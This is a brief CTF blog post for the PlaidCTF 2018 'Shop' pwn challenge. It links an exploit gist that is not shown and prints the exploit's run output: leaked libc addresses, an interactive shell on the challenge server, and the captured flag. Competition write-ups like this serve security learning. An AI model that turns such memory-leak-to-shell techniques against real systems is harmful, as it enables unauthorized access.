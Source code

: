 +++
title = "PlaidCTF: Shop (pwn)"
date = "2018-05-06T20:17:33+01:00"
tags = ["writeup", "ctf", "pwn"]
categories = ["writeup", "pwn"]
comments = true
highlight = true
draft = false
index = true
+++

Below you find the full exploit for PlaidCTF pwn200 task. The full write up will follow up.

<!--more-->

{{< gist segflow 8118ae58bea31f36d83671c212ec6079 >}}

And we run it:
```shell
[+] Opening connection to shop.chal.pwning.xxx on port 9916: Done
Stdout is at: 0x7f457d51d620
Stdin is at: 0x7f457d51c8e0
System is at: 0x7f457d19d390
[*] Switching to interactive mode
$ ls -la
total 24
drwxr-xr-x 2 root root  4096 May  5 01:33 .
drwxr-xr-x 5 root root  4096 May  5 01:33 ..
-rw-r----- 1 root shop    37 May  5 01:26 flag.txt
-rwxr-s--- 1 root shop 10520 May  5 01:26 shop
$ pwd
/home/shop
$ cat flag.txt
PCTF{I_w3nt_sh0pp1ng_w1th_D3_8ruj1n}
$ 
```

Flag: **PCTF{I_w3nt_sh0pp1ng_w1th_D3_8ruj1n}**